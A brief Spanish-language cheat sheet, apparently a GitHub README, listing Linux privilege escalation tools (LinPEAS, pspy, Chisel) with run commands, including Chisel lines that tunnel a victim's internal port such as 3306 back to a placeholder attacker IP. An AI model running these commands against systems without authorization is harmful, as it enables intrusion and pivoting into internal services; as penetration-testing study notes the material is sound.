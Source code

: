 
# LINUX PRIVILEGE ESCALATION

Programas para escalar privilegios en sistemas Linux.




## [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 🔗

Este programa es utilizado para escanear el sistema en busca de archivos interesantes, malas configuraciones e información del sistema.

#### COMANDOS

```
  ./linpeas.sh
```

## [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) 🔗

En tiempo real podremos ver los procesos que se ejecutan y que usuario los ejecuta. Esto permitirá realizar ataques como **PATH HIJACKING**.

#### COMANDOS

```
  ./pspy
```


## [Chisel](https://github.com/jpillora/chisel/blob/master/README.md) 🔗

Seguramente ya conozcas este programa, sirve para realizar **Port Forwarding**, esto quiere decir que te podrás traer un puerto interno de la máquina víctima a tu propia máquina.

#### MÁQUINA ATACANTE
```
./chisel server --reverse -p 1234
```

#### MÁQUINA VÍCTIMA
```
./chisel client <IP-ATACANTE>:1234 R:*<PUERTO-ATACANTE>:127.0.0.1:*<PUERTO-VÍCTIMA>
```

- ***PUERTO-ATACANTE**: Este puerto es el que se abrirá en tu Localhost para acceder a la máquina víctima.
- ***PUERTO-VÍCTIMA**: Este puerto es el que "robas" a la víctima, si internamente tiene abierto el 127.0.0.1:3306 y quieres acceder a el a través del 9999 el comando sería:

#### EJEMPLO
```
./chisel client <IP-ATACANTE>:1234 R:9999:127.0.0.1:3306
```
